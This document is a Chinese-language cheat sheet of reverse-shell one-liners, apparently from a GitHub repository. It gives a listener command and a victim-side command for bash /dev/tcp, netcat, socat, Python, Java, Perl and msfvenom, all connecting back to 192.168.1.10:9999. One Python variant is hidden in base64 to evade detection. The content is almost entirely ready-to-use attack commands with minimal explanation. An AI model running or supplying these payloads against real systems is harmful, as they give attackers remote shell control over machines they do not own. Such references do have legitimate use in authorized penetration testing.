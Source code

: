 # 反弹 SHELL

> [反弹SHELL介绍及原理 - Cocowool ](https://www.cnblogs.com/cocowool/p/reverse-shell.html)
> 
> [linux各种一句话反弹shell总结 - [myles007](https://www.anquanke.com/member/125339)](https://www.anquanke.com/post/id/87017)

## 反弹SHELL工具

### BASH

```bash
# 控制端 监听端口,等待 被控端连接
nc -lvp 9999

# 被控端 将本地bash反弹到 控制端
bash -i >& /dev/tcp/192.168.1.10/9999 0>&1 2>&1
```

## netcat

```bash
# 控制端 监听端口,等待 被控端连接
nc -lvp 9999

# 被控端 将本地bash反弹到 控制端
nc 192.168.1.10 9999 -t -e /usr/bin/bash
```

## socat

```bash
# 控制端 监听端口,等待 被控端连接
socat TCP-LISTEN:9999 -

# 被控端 将本地bash反弹到 控制端
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.10:9999
```

## python

```bash
# 未加密版
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# base64加密版
python -c "exec('aW1wb3J0IHNvY2tldCAgICAgICAgLCBzdWJwcm9jZXNzICAgICAgICAsIG9zICAgICAgICA7ICBob3N0PSIxOTIuMTY4LjMxLjIwMCIgICAgICAgIDsgIHBvcnQ9MTIzNDUgICAgICAgIDsgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgICAgICAgLCBzb2NrZXQuU09DS19TVFJFQU0pICAgICAgICA7ICBzLmNvbm5lY3QoKGhvc3QgICAgICAgICwgcG9ydCkpICAgICAgICA7ICBvcy5kdXAyKHMuZmlsZW5vKCkgICAgICAgICwgMCkgICAgICAgIDsgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgICAgLCAxKSAgICAgICAgOyAgb3MuZHVwMihzLmZpbGVubygpICAgICAgICAsIDIpICAgICAgICA7ICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik='.decode('base64'))"
```

## java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.10/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## perl

```bash
perl -e 'use Socket;$i="192.168.1.10";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## msfvenom

```bash
# msfvenom 框架提供了大量类unix的命令,都是以 cmd/unix/reverse_xxx 的格式
msfvenom -p cmd/unix/reverse_bash lhost=192.168.1.10 lport=9999 R
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.10 lport=9999 R                                                                                         |     |     |     |
```
